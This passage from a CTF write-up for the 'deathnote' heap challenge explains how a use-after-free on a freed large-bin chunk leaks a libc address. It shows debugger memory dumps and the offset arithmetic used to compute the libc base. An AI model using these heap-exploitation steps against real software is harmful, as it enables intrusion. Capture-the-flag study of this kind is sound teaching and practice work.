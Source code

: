 ![large_bin_not_null_byte.png](images/large_bin_not_null_byte.png)

And below the libc main arena address is the heap forward and backward pointer but we won't use this chunk to leak that heap address. Just libc is enough.

So we just leak the libc address out with the bug **Use After Free**, then calculate the offset and take the leaked address subtract with offset, we will get the libc base address:

```
gef➤  x/10xg 0x1b882a0-0x10
0x1b88290:  0x0000000000000000  0x0000000000001011
0x1b882a0:  0x00007f4a4b3d9220  0x00007f4a4b3d9220
0x1b882b0:  0x0000000001b88290  0x0000000001b88290
0x1b882c0:  0x0000000000000000  0x0000000000000000
0x1b882d0:  0x0000000000000000  0x0000000000000000

gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
...
0x0000000000404000 0x0000000000405000 0x0000000000004000 rw- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/dnote_patched
0x0000000001b88000 0x0000000001ba9000 0x0000000000000000 rw- [heap]
0x00007f4a4b212000 0x00007f4a4b214000 0x0000000000000000 rw- 
0x00007f4a4b214000 0x00007f4a4b23a000 0x0000000000000000 r-- /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
0x00007f4a4b23a000 0x00007f4a4b388000 0x0000000000026000 r-x /home/nguyenhuutri/CTF/FoobarCTF/deathnote/dist/libc-2.32.so
...

gef➤  p/x 0x00007f4a4b3d9220 - 0x00007f4a4b214000
$1 = 0x1c5220
```
